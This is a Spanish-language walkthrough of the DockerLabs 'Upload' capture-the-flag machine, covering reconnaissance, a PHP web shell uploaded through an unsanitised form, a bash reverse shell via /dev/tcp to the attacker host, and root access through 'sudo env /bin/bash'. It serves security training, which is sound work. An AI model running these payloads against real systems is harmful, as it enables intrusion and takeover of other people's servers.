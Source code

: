 ![image](https://github.com/Crisstianpd/CTFs/blob/da0262891d6ffdbc167d40b4916f9aabcbd30f15/DockerLabs/Easy/Upload/imgs/upload-banner.png)

[Maquina](https://mega.nz/file/pOdwgYbB#8lTyf-mWFNq7xvKWObKUV9gkrZj3nzhuHVlGQmnZ6BQ)   \   [Dockerlabs](https://dockerlabs.es/)

**TAGS:** `nmap` `wfuzz` `php`
## Reconocimiento

Comenzamos con un escaneo de `nmap` a todos los puertos de la maquina vulnerable en busca de puertos abiertos.

```shell
nmap -p- --open -sS --min-rate 5000 -vvv 172.17.0.2 -oG allPorts
________________________________________________________________

PORT   STATE SERVICE REASON
80/tcp open  http    syn-ack ttl 64
```

Solo hay un puerto abierto, el **puerto 80**. Este corresponde a un servicio http(Hyper Text Transfer Protocol) o servicio web en pocas palabras.

Ahora hacemos un segundo escaneo con `nmap` sobre este puerto abierto con un conjunto de scripts basicos de reconocimientos que trae por defecto nmap con el parametro `-sC` he incluimos el parametro `-sV` para que nos detecte la version del servicio que corre en dicho puerto. Estos dos se pueden escribir como `-sCV`.

```shell
nmap -p80 -sCV 172.17.0.2 -oN targeted
______________________________________
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Upload here your file
|_http-server-header: Apache/2.4.52 (Ubuntu)
```
En los resultados del escaneo podemos ver que dentro del **puerto 80** se aloja una pagina web que, tal parece, nos deja subir archivos al servidor.

Visualizamos la pagina web.

![image](https://github.com/Crisstianpd/CTFs/blob/da0262891d6ffdbc167d40b4916f9aabcbd30f15/DockerLabs/Easy/Upload/imgs/upload-img1.png)

Al tener la oportunidad de subir archivos a una web, en lo primero que pensariamos es en subir un archivo *php* con el que podamos ejecutar comandos dentro de la maquina atraves de un paramentro definido en el archivo. Esto sera asi en caso de que la maquina no aplique ningun tipo de sanitizacion sobre los tipos de archivos que se pueden subir.

Creamos un archivo *php* con un paramentro `cmd` al cual le pasaremos los comandos que deceemos ejecutar.
```shell
echo "<?php system(\$_GET['cmd']); ?>" >> test.php
```

El archivo se logra subir sin ningun problema por lo que, no se esta aplicando ningun tipo de sanitizacion en el servidor.

Ahora debemos encontrar la ruta en donde ha sido guardado nuestro archivo. Para ello, haremos uso de `wfuzz` para encontrar esa ruta en donde fue guardado nuestro archivo. Con el parametro `--hc=404` excluimos todos las respuestas HTTP con codigo 404 (Not Found) que pueda regresar el servidor.

```shell
wfuzz -c --hc=404 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt http://172.17.0.2/FUZZ
________________________________________________________________________________________________________________
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://172.17.0.2/FUZZ
Total requests: 1273832

=====================================================================
ID           Response   Lines    Word       Chars       Payload
=====================================================================
000000001:   200        53 L     104 W      1361 Ch     "# directory-list-2.3-big.txt"
...
000000164:   301        9 L      28 W       310 Ch      "uploads"
```

`Wfuzz` nos ha econtrado un directorio llamado **"uploads"**.

Si revisamos ese directorio podremos ver que ahi se encuntra alojado nuestro archivo *test.php*.

![image](https://github.com/Crisstianpd/CTFs/blob/c7607027a54663a493ee8f98bae0e294bba35842/DockerLabs/Easy/Upload/imgs/upload-img2.png)

Nos dirijimos directamente atraves de la URL a nuestro archivo php y hacemos un llamado al parametro que predefinimos anteriormente para que ejecute el comando `id` en la maquina.

```
http://172.17.0.2/uploads/test.php?cmd=id
```

![image](https://github.com/Crisstianpd/CTFs/blob/c7607027a54663a493ee8f98bae0e294bba35842/DockerLabs/Easy/Upload/imgs/upload-img3.png)
Al hacer esto podremos observar la respuesta del servidor ante el comando `id` por lo que el archivo funciona y el servidor interpreta de forma correcta las peticiones hechas atraves del archivo php. Sabiendo esto, podemos intentar entablar una revershell del servidor a nuestra maquina atacante. 

## Explotacion

Nos colocamos en escucha con `netcat` por el **puerto 443** en espera de la conexion.
```shell
nc -nlvp 443
```
Y atraves del parametro `cmd` de nuestro archivo le hacemos la peticion al servidor para que establezca una conexion con nuestra maquina atacante. Cambiamos el caracter `&` por su expresion en URL(`%26`), para que pueda ser interpretado por el servidor:
```shell
http://172.17.0.2/uploads/test.php?cmd=bash -c "bash -i >%26 /dev/tcp/172.17.0.1/443 0>%261"
```
![image](https://github.com/Crisstianpd/CTFs/blob/c7607027a54663a493ee8f98bae0e294bba35842/DockerLabs/Easy/Upload/imgs/upload-img4.png)
Y hemos logrado ganar acceso como el usuario *www-data*.

## Escalada de privilegios

Ejecutamos un `sudo -l` para ver si existe algun comando que podamos ejecutar con altos privilegios.

```shell
sudo -l
________________________
...
User www-data may run the following commands on 41e845320485:
    (root) NOPASSWD: /usr/bin/env
```
Vemos que el usuario *www-data* puede ejecutar `/usr/bin/env` como *root* sin necesidad de proporcionar alguna credencial. Por ende, ejecutamos una **bash** atraves del comando `env` como *root*.
```shell
sudo env /bin/bash
```

Y comprobamos con el comando `whoami` o `id` que ya somos usuario *root*.

![image](https://github.com/Crisstianpd/CTFs/blob/f45ffec0d097da4e06089b4f4224cc077d4140cd/DockerLabs/Easy/Upload/imgs/upload-img5.png)

##

De esta forma hemos resuelto la maquina Upload de DockerLabs.






